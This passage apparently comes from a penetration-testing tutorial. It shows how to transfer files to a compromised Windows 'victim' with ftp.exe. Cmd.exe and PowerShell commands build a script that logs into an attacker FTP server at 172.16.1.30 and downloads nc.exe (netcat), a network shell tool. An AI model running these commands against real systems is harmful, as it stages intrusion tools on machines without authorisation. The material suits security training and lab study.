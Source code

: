 Lucky for us, we can create a TXT file that can be fed into ftp.exe and executed line by line allowing us to still utilize FTP as a means to transfer files without GUI.

This technique is also cool because the TXT file has to be crafted right on the victim. This way there will no need for transferring a file to be able to transfer files – because that’s redundant!

> We have to craft the TXT file on the victim because Linux and Windows using different encoding for their TXT files. Linux used UTF8 and Windows uses ASCII.

First we will craft our ftp.txt file using the following commands:

```
echo open 172.16.1.30 > ftp.txt
echo USER anonymous >> ftp.txt
echo PASS anonymous >> ftp.txt
echo binary >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```

> If you are downloading a non-binary file, simply remove the ‘echo binary >> ftp.txt’ line from the commands above.

Now that we have crafted our ftp.txt file, we can use the following command to feed it into ftp.exe where it will be executed line by line:

```
ftp.exe -v -n -s:ftp.txt
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-137.png)

## **Downloading Files from Attacker’s FTP Server: PowerShell**

Utilizing the same technique as we did in the last example, we can create the ftp.txt file with PowerShell specific commands.

> There have been times when I tried to use the cmd.exe method to download a file from FTP and it failed. But then, testing the PowerShell version with ascii encoding, it worked.

Execute the following commands directly on the victim from a writeable directory:

```
echo "open 172.16.1.30" | Out-File .\ftp.txt -encoding ascii
echo "USER anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "PASS anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "binary" | Out-File .\ftp.txt -encoding ascii -append
echo "GET nc.exe" | Out-File .\ftp.txt -encoding ascii -append
echo "bye" | Out-File .\ftp.txt -encoding ascii -append
```

> This will create ftp.txt in the current directory; and when executed, it will download the file specified in the GET command to the current directory.

Now we can use the command **ftp.exe -v -n -s:ftp.txt** again to connect to our FTP server and execute the ftp.txt file line by line.
